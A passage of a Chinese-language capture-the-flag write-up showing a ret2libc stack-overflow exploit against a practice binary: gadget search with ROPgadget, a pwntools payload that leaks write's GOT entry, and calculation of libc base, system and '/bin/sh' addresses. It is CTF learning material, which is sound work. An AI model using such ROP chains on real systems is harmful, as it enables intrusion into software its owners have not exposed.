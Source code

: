然后开始第一次输入，打印存放在got的动态链接地址。

由于是x64的程序，x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈

也就是说write(1, buf,反正是个数就行)需要rdi=1, rsi=buf=got，rdx是个数就行我调的时候一直是0x200，就没管

通过`ROPgadget --binary attachment --only "pop|ret"`获取到

能够pop rdi --> p64(0x00401233)的地址，

和pop rsi --> p64(0x0401231) 的地址，这里没办法只有pop rsi, pop r15, ret的地方，只好多pop一个，我当时对了一下这个位置本来就是等于0的

参数准备好就可以跳转到write输出了！

要准备好write结束后的堆栈，重读一遍进行第二次栈溢出

```python
p = remote('node9.anna.nssctf.cn', 24553)

payload = (b'A'* (88+8+8) + p64(0x00401233) + p64(1) +
           p64(0x0401231) + p64(write_got) + p64(0) +
           p64(write_plt) + p64(0x040117B))
p.sendline(payload)
```

输出一下，拿到got存放的地址，输出很长如果没有换行符recvline()会报错

一开始我还以为是程序崩了（

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

print("\n")
data = p.recv(8)
hex_string = data.hex()
print("[2]data= ", data, ":", hex_string)

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

接下来就是算libc基址，以及通过偏移量拿到libc中的system和/bin/sh

这个地方我还找了半天，什么/bin/bash；/bin/dash；sh；

就是忘记找/bin/sh了:（

```python
write_addr = u64(data)
print(format(write_addr, 'x'))
libc_base = write_addr - libc.symbols['write']
print(format(libc_base, 'x'))
system_addr = libc_base + libc.symbols['system']
print(format(system_addr, 'x'))
bin_bash = libc_base + next(libc.search(b'/bin/sh'))
print(format(bin_bash, 'x'))
```
